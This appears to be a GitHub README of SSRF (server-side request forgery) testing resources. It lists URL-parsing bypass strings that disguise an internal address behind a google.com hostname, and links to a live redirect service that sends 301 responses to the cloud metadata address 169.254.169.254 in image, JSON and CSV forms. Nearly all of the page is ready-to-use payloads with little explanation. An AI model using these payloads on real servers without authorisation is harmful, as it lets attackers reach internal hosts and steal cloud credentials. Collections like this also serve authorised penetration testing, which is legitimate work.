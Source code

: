 <a href="https://www.buymeacoffee.com/cujanovic" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-yellow.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>


[I'm grateful for the support received by Tutanota](https://tutanota.com/)


# SSRF (Server Side Request Forgery) testing resources



***

### Quick URL based bypasses:
`http://google.com:80+&@127.88.23.245:22/#+@google.com:80/`

`http://127.88.23.245:22/+&@google.com:80#+@google.com:80/`

`http://google.com:80+&@google.com:80#+@127.88.23.245:22/`

`http://127.88.23.245:22/?@google.com:80/`

`http://127.88.23.245:22/#@www.google.com:80/`

`http://google.com:80\\@127.88.23.245:22/`

***

### htaccess - redirect test for various cases
Status codes: 300, 301, 302, 303, 305, 307, 308

Filetypes: jpg, json, csv, xml, pdf
#### Live demo:
jpg 301 response without and with a valid response body:

`https://ssrf.localdomain.pw/img-without-body/301-http-169.254.169.254:80-.i.jpg`

`https://ssrf.localdomain.pw/img-without-body-md/301-http-.i.jpg`

`https://ssrf.localdomain.pw/img-with-body/301-http-169.254.169.254:80-.i.jpg`

`https://ssrf.localdomain.pw/img-with-body-md/301-http-.i.jpg`


json 301 response without and with a valid response body:

`https://ssrf.localdomain.pw/json-without-body/301-http-169.254.169.254:80-.j.json`

`https://ssrf.localdomain.pw/json-without-body-md/301-http-.j.json`

`https://ssrf.localdomain.pw/json-with-body/301-http-169.254.169.254:80-.j.json`

`https://ssrf.localdomain.pw/json-with-body-md/301-http-.j.json`


csv 301 response without and with a valid response body:

`https://ssrf.localdomain.pw/csv-without-body/301-http-169.254.169.254:80-.c.csv`

`https://ssrf.localdomain.pw/csv-without-body-md/301-http-.c.csv`

`https://ssrf.localdomain.pw/csv-with-body/301-http-169.254.169.254:80-.c.csv`
